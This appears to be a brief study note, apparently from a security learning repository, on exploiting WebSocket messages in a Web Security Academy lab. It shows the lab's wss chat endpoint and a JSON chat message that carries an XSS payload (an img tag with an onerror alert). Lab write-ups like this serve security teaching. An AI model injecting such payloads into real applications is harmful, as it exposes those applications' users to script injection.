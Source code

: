 # WebSocket Vulnerabilities

### Manipulating WebSocket messages to exploit vulnerabilities
* Attack Vector
```html
<form id="chatForm" action="wss://ac2c1f411fac5042c0e80df200df001b.web-security-academy.net/chat" encode="true">
```
* Payload
```json
{"message" : "<img src=1 onerror='alert(1)'>"}
```


